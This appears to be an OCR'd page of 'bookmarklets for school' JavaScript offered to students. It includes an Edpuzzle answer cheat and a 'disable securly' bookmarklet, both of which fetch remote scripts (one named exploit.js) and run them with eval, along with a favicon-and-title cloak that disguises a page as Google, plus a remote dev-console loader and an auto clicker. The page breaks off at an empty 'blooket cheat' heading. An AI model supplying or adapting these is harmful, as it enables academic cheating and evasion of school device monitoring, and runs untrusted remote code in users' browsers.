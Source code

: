 # bookmarklets for school
# edpuzzle cheats
javascript: var host = window.location.hostname; if (host == "edpuzzle.com") { var r = new XMLHttpRequest(); r.open("GET", "https://cdn.jsdelivr.net/gh/ading2210/edpuzzle-answers@latest/script.js", true); r.addEventListener("load", function(){eval(this.responseText);}); r.send();} else if (host == "edpuzzle.hs.vc") {alert("To use this, drag this button into your bookmarks bar. Then, run it when you're on an Edpuzzle assignment.")} else {alert("Please run this on an Edpuzzle assignment.")}
# disable securly
go to website then click on bookmarklet then disbale securly for chromebook and securly classroom

https://chrome.google.com/webstorex

javascript:fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
# edit webpage (changes text on webpages, doesnt save)
javascript:krazete:console.log(document.body.contentEditable="true"==document.body.contentEditable?"false":"true");
# cloak website (appears as google)
javascript:(function() {var l = document.querySelector("link[rel*='icon']") || document.createElement('link');l.type = 'image/x-icon';l.rel = 'shortcut icon';l.href = 'https://google.com/favicon.ico';document.getElementsByTagName('head')[0].appendChild(l);document.title = 'Google';})();
# microsoft bing web popup
javascript:((function()%7Bvar a,b,c;c="https://www.bing.com/",b=document.createElement("iframe"),b.setAttribute("src",c),b.setAttribute("id","rusic-modal"),b.setAttribute("style","position: fixed; z-index: 999999; width: 1333px; height: 768px; right: 10px; top: 10px; border: 5px solid #8834af; overflow: hidden; background-color: #fff;"),a=document.getElementsByTagName("body")%5B0%5D,a.appendChild(b)%7D)).call(this)
# dev console
javascript:(function()%7B(function() %7Bvar x %3D document.createElement("script")%3Bx.src %3D "https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FSnowLord7%2Fdevconsole%40master%2Fmain.js"%3Bx.onload %3D alert("Loaded Developer Console!")%3Bdocument.head.appendChild(x)%3B%7D)()%7D)()
# auto clicker
javascript:clicker:{"use strict";const{Number}=self;const milliseconds=Number.parseInt(self.prompt("How many seconds do you want to wait before clicking again?",%271%27),10);if(false===Number.isSafeInteger(milliseconds)){self.alert("Input was not an integer");break clicker;}let clientX=0,clientY=0;const{document}=self;self.setInterval(()=>{document.elementFromPoint(clientX,clientY)?.click?.();},milliseconds);document.addEventListener("mousemove",event=>{({clientX,clientY}=event);},{passive:true});}
# blooket cheat